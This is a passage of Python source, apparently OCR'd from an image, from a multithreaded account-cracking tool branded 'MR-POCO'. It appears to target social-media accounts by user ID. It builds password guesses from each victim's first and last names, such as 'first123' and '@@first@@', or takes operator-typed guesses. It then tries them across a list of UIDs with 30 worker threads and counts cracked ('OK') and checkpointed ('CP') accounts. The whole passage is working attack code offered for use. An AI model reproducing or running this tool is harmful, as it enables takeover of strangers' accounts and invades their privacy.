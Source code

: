 		plist.append('first123')
		plist.append('first1234')
		plist.append('first12345')
		plist.append('first@')
		plist.append('first@@')
		plist.append('first@@@')
		plist.append('first@@@@')
		plist.append('first@#')
		plist.append('first@@##')
		plist.append('first@123')
		plist.append('first##')
		plist.append('first1122')
		plist.append('first111')
		plist.append('@first@')
		plist.append('@@first@@')
		plist.append('First123')
		plist.append('last123')
		plist.append('first###')
		plist.append('@@@###')
		plist.append('free fire')
	else:
		try:
			clear();print(f'{xd} EXAMPLE {xdxx} PASSWORD LIMIT {R}|{G}10-25{R}|');linex()
			ps_limit = int(input(f'{xdx} ENTER PASSWORD LIMIT {xdxx} '))
		except:
			ps_limit = 5
		clear();print(f'{xd} EXAMPLE {xdxx} first12 {R}|{G} first123 {R}|{G} firstlast ');linex()
		for i in range(ps_limit):
			plist.append(input(f'{xd} PASSWORD NO{R}|{G}{i+1}{R}| {xdxx} '))
	clear();print(f'{xd} CP UID SHOW {xdxx} {R}|{G}y{R}|{G}n{R}|');linex();cpx=input(f"{xdx} SELECT {xdxx} ")
	if cpx in ['y','Y','yes','Yes','1']:
		pcp.append('y')
	else:
		pcp.append('n')
	with tred(max_workers=30) as __poco__:
		clear();total_ids = str(len(fo))
		print(f'{xd} UID{R}|{G}METHOD {xdxx}{W} {total_ids}{R}|{W}M{methd} ');print(f"{xd} IF NO RESULT {R}|{G}ON{R}|{G}OFF{R}|{G} AIRPLANE MODE");linex()
		for user in fo:
			ids,names = user.split('|')
			passlist = plist
			if methd in ['1']:
				__poco__.submit(___M1___,ids,names,passlist)
			elif methd in ['2']:
				__poco__.submit(___M2___,ids,names,passlist)
			else:
				__poco__.submit(___M1___,ids,names,passlist)
	print('\033[1;37m');linex();print(f'{xd} THE PROCESS HAS COMPLETED');print(f'{xd} TOTAL OK{R}|{G}CP {xdxx} '+str(len(oks))+'/'+str(len(cps)));linex();exit()
#--------------------< FILE METHOD M1 >--------------------#
def ___M1___(ids,names,passlist):
        try:
                global loop,oks,cps
                sys.stdout.write(f'\r\r{R}<{W}={R}>{W}-{R}<{G}MR-POCO{R}>{W}-{R}|{T}%s{R}|{W}-{R}|{G}%s{R}|{W}-{R}|{P}%s{R}| '%(loop,len(oks),len(cps)));sys.stdout.flush()
                fn = names.split(' ')[0]
                try:
                        ln = names.split(' ')[1]
                except:
                        ln = fn
                for pw in passlist:
                        pas = pw.replace('first',fn.lower()).replace('First',fn).replace('last',ln.lower()).replace('Last',ln).replace('Name',names).replace('name',names.lower())